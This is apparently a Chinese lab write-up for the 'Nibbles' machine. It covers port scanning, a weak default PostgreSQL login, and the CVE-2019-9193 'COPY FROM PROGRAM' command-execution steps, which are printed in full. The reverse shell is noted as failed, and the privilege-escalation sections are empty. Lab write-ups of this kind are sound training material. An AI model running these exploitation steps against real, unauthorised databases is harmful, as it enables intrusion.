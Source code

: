 ```yaml
---
icon: check
description: Medium / Linux / PostgreSQL命令执行 / CVE-2019-9193
---
```


# ✔️ Nibbles

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA nibbles 192.168.215.47 --open
```

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 扫描的同时可尝试直接使用IP地址登录查看是否有Web页面，很幸运有，但是好像没有什么特别的信息。

<figure><img src="../.gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/2 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/3 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (12).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch检查是否有隐藏文件/目录，没有：

```bash
dirsearch -u  http://192.168.218.47 -x 403,404,400
```

<figure><img src="../.gitbook/assets/4 (12).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的扫描结果，发现21端口正运行着FTP服务，尝试匿名登录，失败：

```bash
ftp 192.168.215.47
```

<figure><img src="../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在5437端口上正在运行的是PostgreSQL 11.3-11.9版本的服务，搜索公开已知的漏洞发现了一个远程命令执行的漏洞正好适用于当前版本：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 下载下来查看脚本使用说明：

```bash
searchsploit -m 50847.py
python3 50847.py -h
```

<figure><img src="../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 脚本利用始终失败，但是该端口运行的postgresql服务有弱口令登录，用上述脚本中的默认凭证可以成功登录该服务：

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

```bash
psql -h 192.168.210.47 -p 5437 -U postgres
```

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据上述搜索出的利用脚本得知漏洞为CVE-2019-9193，搜索找到可手动利用的步骤：

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 验证结果说明目标确实存在着命令执行漏洞：

```bash
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec; 
```

<figure><img src="../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例尝试用手动利用和脚本利用均无法成功反弹shell，暂不清楚原因先搁置...
{% endhint %}

<figure><img src="../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## 权限提升

### 本地信息收集

### 漏洞利用

### ROOT

{% hint style="info" %}


(本例机器中途重置过，IP地址有变，不影响漏洞利用及其实现结果)
{% endhint %}
